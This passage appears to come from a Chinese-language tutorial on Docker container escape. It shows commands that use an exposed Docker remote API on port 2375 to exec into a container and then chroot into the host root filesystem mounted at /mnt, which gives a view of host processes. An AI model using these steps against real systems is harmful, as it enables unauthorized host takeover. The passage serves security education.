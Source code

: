 然后进入容器:

```plain
docker -H tcp://host:2375 exec -it CONTAINERID sh
```

默认执行命令只能看到容器内的：  
![image-20201210133100026](assets/1700701638-e983a9c3f66a60faedef61ea15a18593.png)  
进入到挂载进来的磁盘中，并切换根目录，则可以看到宿主机进程：

```plain
chroot /mnt sh
```

![image-20201210133155263](assets/1700701638-abd118e496a9edfecd6f5a20535656b7.png)  
因为挂载把宿主机根目录挂载到了容器中的/mnt目录中，就再次回到了上述逃逸的攻击手段了，其他就不再赘述。
